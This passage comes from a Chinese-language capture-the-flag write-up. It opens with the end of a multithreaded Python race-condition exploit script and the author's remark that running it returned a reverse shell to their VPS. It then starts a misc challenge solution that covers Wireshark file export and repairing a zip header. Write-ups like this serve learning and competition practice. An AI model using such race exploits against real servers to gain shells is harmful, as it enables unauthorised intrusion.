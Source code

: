 ```python
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```
运行后立刻在vps上成功收到了反弹的shell（应该不用这么暴力也能解）  

## MISC 

### Misc | 复合 (277pt)
套娃题。

观察到可疑 HTTP 请求，导出响应文件。  
![wireshark](img/wireshark.png)

发现所有的文件后缀都不符合真实的文件类型，逐一修改文件后缀名。  
其中 md 文件看文件尾能知道是 zip，但是它的文件头坏了。通过对比正常的 zip 文件，发现只是缺少了最开始的两个 bytes，手动补全即可。  